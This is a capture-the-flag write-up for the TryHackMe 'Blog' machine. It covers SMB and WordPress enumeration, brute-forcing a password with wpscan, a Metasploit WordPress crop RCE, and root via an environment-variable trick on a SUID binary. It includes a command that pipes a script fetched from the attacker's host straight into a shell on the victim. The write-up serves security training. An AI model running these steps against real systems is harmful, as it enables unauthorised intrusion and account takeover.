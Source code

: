 Blog-tryhackme ;22 JUL 2021  

machine ip : 10.10.116.161

## SCANNING 

### basic scanning 

└─$ nmap -sV -v 10.10.116.161 -oN nmap/intial

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

```

ENUMRATION
==========
smb service
------------
└─$ smbclient -L 10.10.116.161                                                                                                                                                      
`  BillySMB        Disk      Billy's local SMB Share `

└─$ smbclient -N //10.10.116.161/BillySMB

```
 Alice-White-Rabbit.jpg              N    33378  Tue May 26 14:17:01 2020
 tswift.mp4                          N  1236733  Tue May 26 14:13:45 2020
 check-this.png                      N     3082  Tue May 26 14:13:43 2020

```
[*] download them all and check them 

$ steghide extract -sf Alice-White-Rabbit.jpg  

wrote extracted data to "rabbit_hole.txt".
```
$ cat rabbit_hole.txt                                                                                                 
You've found yourself in a rabbit hole, friend.

```

http service 
--------------
[*] searching for directories .

└─$ gobuster dir -u "http://10.10.116.161/" -w=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt  | tee gobuster.txt
```
/rss                  (Status: 301) [Size: 0] [--> http://10.10.116.161/feed/]
/login                (Status: 302) [Size: 0] [--> http://blog.thm/wp-login.php]
/feed                 (Status: 301) [Size: 0] [--> http://10.10.116.161/feed/]  
/atom                 (Status: 301) [Size: 0] [--> http://10.10.116.161/feed/atom/]
/wp-content           (Status: 301) [Size: 319] [--> http://10.10.116.161/wp-content/]
/admin                (Status: 302) [Size: 0] [--> http://blog.thm/wp-admin/]         
/wp-includes          (Status: 301) [Size: 320] [--> http://10.10.116.161/wp-includes/]
/dashboard            (Status: 302) [Size: 0] [--> http://blog.thm/wp-admin/]          
```

## note :
because blog.thm is a local webpage and hence we are in the same network with the machine we need to provide ip and name in the /etc/hosts "dns" . so we can access the page .

10.10.116.161    blog.thm

[*] let's look at this page :
http://blog.thm/wp-login.php
### via wappalyzer extenstion i know it is wordpress 5.0 

Billy Joel : not a valid user name .

[*] using wpscan to enumrate users 

" it just get names from the web page 'comments'.'posts','etc' so some can be wrong "

─$ wpscan --url blog.thm --enumerate u | tee wpscan-users   


let's try results to verify :       

```
kwheel  "works"
bjoel   "works"
karen Wheeler XX
Billy joel XX

```
[*] hence bjoel works at IT field it doesn't seem his password will be so easy to crack so let's try kwheel first and see results !



[*] using wpscan to crack kwheel password 
└─$ wpscan --url blog.thm -U kwheel  -P /usr/share/wordlists/rockyou.txt               2 ⨯

```
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - kwheel / cutiepie1     

```

### we can also use hydra and provide it with the failed message .

when password is wrong our post request response is :

log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1

EXPLOITATION
=============
goal is to upload a php revere shell and get in .
no plugins or themes options in the page :( .
let's try metasploit module .

multi/http/wp_crop_rce  # fits the wordpress 5.0 rce .
### set password ,username , rhost= blog.thm ,lhost  then exploit .


================== WE GOT A SESSION ================

Server username: www-data (33)

to get a stable shell :
$shell
$python -c "import pty ; pty.spawn('/bin/bash')"
[*]seaching for user.txt
/home/bjoel/user.txt
```
You won't find what you're looking for here.

TRY HARDER
```
"it doesn't work :( as a submission"

pdf file :
---------
```
This letter is to inform you that your employment with Rubber Ducky Inc. will end effective immediately
on 5/20/2020.

```
so it seems a /media/usb relevant but we need to be root to access it .

PRIVILEGE ESCALATION
====================
$sudo -l
we need our password so not helpful .

$find / -type f -user root -perm -4000 -exec ls -l {} + 2>/dev/null

let's check this :
-rwsr-xr-x 1 root root            136808 Oct 11  2019 /snap/core/8268/usr/bin/sudo#need password
-rwsr-sr-x 1 root root              8432 May 26  2020 /usr/sbin/checker

https://gtfobins.github.io/#checker #no results :(

try to run it 
/usr/sbin/checker
Not an Admin

linpeas
========
on my side :
-------------
(kali㉿kali)-[~/Tryhackme/blog/linpeas]
└─$ python3 -m http.server  

on victim side :
-----------------

$curl "http://10.8.203.221:8000/linpeas.sh" | sh

doesn't help alot but we know a user exists .

bjoel:x:1000:1000:Billy Joel:/home/bjoel:/bin/bash


download this checker file and try to get any info using cutter or IDA .
meterpreter > download /usr/sbin/checker .

cutter results :

![cutter](https://user-images.githubusercontent.com/67979878/126591875-65cf2723-f362-4e08-82fc-b60e690c2717.PNG)

we can see it checks in /bin/bash if varirable admin is not 0x00 . 
so let's try set value before executing it  .
$export admin=admin

$/usr/sbin/checker 

=============== NOW WE ARE ROOT ===============

$cat /media/usb/user.txt

$cat /root/root.txt
